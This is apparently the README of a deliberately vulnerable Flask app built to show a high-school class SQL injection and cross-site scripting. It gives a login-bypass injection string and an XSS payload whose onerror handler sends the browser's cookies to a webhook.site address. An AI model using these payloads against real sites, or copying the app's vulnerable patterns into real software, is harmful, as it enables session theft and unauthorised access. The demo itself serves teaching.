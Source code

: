 # Flask SQL Injection Demo
This is a small demonstration of how a SQL injection might look like, written for a presentation in front of a highschool class.

## SQL Injection
The server hosts an index page with a login to demonstrate a SQL injection, e.g. 
```sql
admin'; --
```
in the user input, to successfully log in with any password. The correct password for the admin account is admin123.

After sucessfully logging in, there is a button that redirects to the posts page, which can also be reached by link. 

However, only after a successful login, will the browser set a username and password cookie from the database, which can then be used for demonstratin the XSS attack.

## XSS Attack
On the posts page, the user can create new posts, including such posts that use HTML elements. This can be used for a XSS attack, e.g.:
```html
<img src="x" onerror="fetch('https://webhook.site/mywebhook?cookies='+document.cookie);">

```
Which will send the browser cookies to your webhook website, demonstrating the dangers of XSS attacks.

If you want to show arbitrary code execution you can generate HTML-Elements with arbitrary code execution, e.g.: with alerts. If you find them annoying, you can remove them by clicking on the red cross (from wikipedia, background removed).

You can reach the server via localhost:5000
## Pictures in static
- red cross
    - By Yerson_O, CC BY-SA 3.0, https://commons.wikimedia.org/w/index.php?curid=2588992, white background removed
